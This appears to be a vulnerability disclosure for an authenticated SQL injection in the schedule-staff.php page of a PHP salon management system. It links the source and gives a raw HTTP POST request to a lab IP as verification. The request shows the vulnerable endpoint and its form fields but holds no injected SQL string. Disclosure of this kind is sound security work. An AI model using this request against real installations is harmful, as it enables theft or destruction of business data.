

The Best salon management system has an SQL injection vulnerability. If an attacker is authenticated, they can exploit this vulnerability to steal information or damage the database.


Source code address：https://www.sourcecodester.com/php/18171/best-salon-management-system-project-php.html


Loopholes in barbarbaba/panel/schedule - staff. PHP file, code receives the user submits the data and then written to the database, there is a direct and joining together of SQL statements, didn't do too many restrictions, pose a safety hazard.


Vulnerability verification：

```
POST /barbarbaba/panel/schedule-staff.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/barbarbaba/panel/schedule-staff.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9qunanken3a3eh5ub3i2aegl9i
Connection: close

staff_id=4&shift_date=2025-05-29&start_time=14%3A04&end_time=14%3A05&status=Day+Off&submit=
```

 


